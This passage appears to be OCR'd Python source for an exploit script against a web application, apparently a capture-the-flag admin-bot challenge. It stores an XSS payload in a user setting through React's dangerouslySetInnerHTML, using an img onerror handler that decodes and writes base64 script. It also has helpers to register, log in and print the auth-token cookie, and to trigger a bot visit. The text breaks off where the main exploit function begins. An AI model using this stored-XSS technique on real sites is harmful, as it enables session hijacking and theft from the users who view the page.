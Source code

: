 ```py
    # Create settings with XSS payload
    payload = {
        "displayName": {
            # "children": "",
            # "style": {"color": "red"},
            "dangerouslySetInnerHTML": {
                "__html": "<img onerror=document.write(atob(\"" + encode_base64(xss_payload) + "\")) src='invalid-image' />"
            }
        }
    }
    response = s.post(f"{app_url}/api/settings", json=payload)
    if response.status_code == 200:
        print("XSS payload stored successfully.")
    else:
        print(f"Failed to store XSS payload. Status code: {response.status_code}")
        print("Response:", response.text)
    return response

def register(username, password):
    # Register a new user
    payload = {
        "username": username,
        "password": password
    }
    response = s.post(f"{app_url}/api/register", json=payload)
    if response.status_code == 201:
        print("User registered successfully.")
    else:
        print(f"Failed to register user. Status code: {response.status_code}")
        print("Response:", response.text)
    return response

def login(username, password):
    # Login the user
    payload = {
        "username": username,
        "password": password
    }
    response = s.post(f"{app_url}/api/login", json=payload)
    if response.status_code == 200:
        print("User logged in successfully.")
        print("Token:", response.cookies.get("auth-token"))
    else:
        print(f"Failed to login. Status code: {response.status_code}")
        print("Response:", response.text)
    return response

def bot_visit(url):
    # Visit the bot URL
    response = requests.post(f"{bot_url}/visit", json={"url": url})
    if response.status_code == 200:
        print(f"Bot visited {url} successfully.")
        print("Response:", response.text)
    else:
        print(f"Failed to visit {url}. Status code: {response.status_code}")
        print("Response:", response.text)
    return response


def exploit():
    global username, password

```